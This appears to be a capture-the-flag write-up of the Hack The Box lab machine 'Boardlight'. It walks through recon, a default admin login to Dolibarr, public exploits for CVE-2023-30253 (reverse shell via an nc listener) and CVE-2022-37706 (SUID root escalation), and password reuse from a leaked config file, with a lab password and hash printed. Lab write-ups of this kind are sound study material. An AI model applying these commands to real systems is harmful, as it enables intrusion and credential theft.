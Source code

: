 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Boardlight
tags: []
---
```

**Start 22:40 11-07-2024**

First off we start with active recon. Use `nmap -sT -A 10.10.11.11` and we get the following output:

![](../../../assets/793de3da66200d4209d15f326ced76eb.png)

We see an open port `22 - SSH` and `80 - HTTP`. 

After visiting the website we see a contact form on `/contact.php?`. After submitting a test text message it refreshed the page thus it seems some functionality has been implemented. 

Afterwards we run a directory scan using `dirb` to find out what else can be found.
We find some directories but for most we do not have the permission to access them:

![](../../../assets/90ec06fd9744774da477f60b5ae5878d.png)


![](../../../assets/6c7b5f363181d46eb628032b7376d730.png)

None of the directories were useful, which means it is time to start looking for subdomains.
To look for subdomains we'll be using `ffuf` to enumerate any other subdomains.
For this we will use the following command:
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://board.htb -H "Host: FUZZ.board.htb" -ic -t 200 -c -fs 15949

![](../../../assets/f7fea7bb56607a1799f1f68530d5cc2f.png)

Right away we find a couple of interesting subdomains such as `crm` and `CRM`. Right about now it would be smart to edit the `/etc/hosts` file to add the `crm.board.htb` as well as `board.htb` under the machine IP. 
After adding the subdomain to the `/etc/hosts` file we gain access to the following website:

![](../../../assets/77534b539216aa029fb90cef59460108.png)

Here we see that it is powered by Dolibarr 17.0.0. Right away we can try to access it using basic credentials. I've tried a couple until `admin - admin`did the trick.

![](../../../assets/324cd31a13079b04315bb91b408db030.png)

After looking up whether there's any CVE's available for this version of Dolibarr we find the following `CVE-2023-30253`:

![](../../../assets/aa969786ce644e0069003391ec1fca1b.png)

After clicking the *see more details about vulnerability here* button we get traced to the following website https://www.swascan.com/security-advisory-dolibarr-17-0-0/ where we find the proof of concept of the CVE.

Just download and extract the `exploit.py` file, then follow the instructions of the Github page by starting `nc -lvnp 9001` and in another terminal type `python3 exploit.py http://crm.board.htb admin admin MACHINE_IP 9001`

If all went correctly (you might have to try multiple times) it should look something like this:

![](../../../assets/e73ae944f09910aedc0edae835583034.png)


![](../../../assets/615067041772c56e098e3eae4837e924.png)

After moving to the `/home` directory we find a user `larissa` which we do not have access to.
To obtain access we need to understand how Dolibarr works. For that we can visit the following website https://wiki.dolibarr.org/index.php?title=Configuration_file 

We need to find the `conf` file so we do a search like `find / -type d -name 'conf' 2>/dev/null` 

![](../../../assets/df5bf7c4ec6c3ed5ddb2cc31b5f35906.png)

Here we find a few files of which `conf.php` is one, `cat` this file and you get the following:

![](../../../assets/4c73c427e5249d56b30da95e3dfb36b6.png)

We see mentions of `port 3306` having a `MySQL` database running, we can try and connect to it with the provided `user` and `pass` -> `dolibarrowner`  -  `serverfun2$2023!!`. 

Connect to it using `mysql -u dolibarrowner -p`.

![](../../../assets/fdd000957219d7380e7830cbc0c4defa.png)

Of these `DATABASES` we will view the one called `dolibarr` first. After entering `use dolibarr;` we type `SHOW TABLES;` to view the different tables inside the chosen db. We get a really extensive list of `llx_` tables. Scrolling through them we find one that stands out, `llx_user`.

![](../../../assets/a29b5ef6ec72af0e8f6f8336528c0165.png)

Index this table using `SELECT * FROM llx_user;`

![](../../../assets/442ac5825eb8560c73c52e4d4d6a4606.png)

Now we see the whole `llx_user` table with all it's contents. Here we'll try to crack the `dolibarr` superadmin hash -> `$2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm`.
After trying to crack the hash we get nothing useful. 

Let's backtrack before diving deeper into the rabbit hole. We also know that `port 22 - SSH` is open. We have found a user called `larissa` in the `/home` directory. It is possible that this user recycles their passwords, thus we should try logging into `SSH` using the same password.

We try to connect using `ssh larissa@10.10.11.11` and using the same password as with the `SQL db` we gain access to the `SSH` port.

![](../../../assets/d624bd9eb5385f5fce17f52f4325a61d.png)

In the same directory we'll find the `user.txt` flag. 

![](../../../assets/90f7e8c136f8e306165b559ff5169c46.png)

After trying `sudo -l` to see sudo privileges we get the following text:

![](../../../assets/b7cad982bbfc2be8f6f4cb7d6a8309b3.png)

Now we'll check the [SUID/GUID](Linux%20Privilege%20Escalation.md#SUID/GUID) privileges for this user using the following command
`find / -perm -u=s -type f 2>/dev/null`. With this command we'll be checking to find any files with `SUID` privileges. 

![](../../../assets/f88da4604dbdcd692e23449dcbfc64b0.png)

One thing that stands out is the program called `enlightenment` that is running. After looking it up on Google we find the following information:

![](../../../assets/b72147fafae18f6e11c39d4da8964a80.png)

It appears to be a window manager for Linux. We can look up any exploits for this program to see if there's a CVE made for it.

Luckily for us there's a ready CVE on Github -> `CVE-2022-37706` meaning we just have to download the zip code and extract the exploit.

![](../../../assets/cf37474f6a5ff20d7509f97d4b931fa8.png)

After downloading the zip file, extracting it to our `/home` directory and `chmod +x` the file we can run it by using `./exploit.sh`.

![](../../../assets/a849f45ac0360c008567aa00ac36cec6.png)

Just like that we have gained `root` privileges.
Now we need to find the `root.txt` flag.

![](../../../assets/1082e75d7ab075155586b642d037ef87.png)

As always it is placed in the `/root` directory.

![](../../../assets/5f9f775c3b0b51088a20f277a500afa9.png)

**Finished 11:08 13/07**  

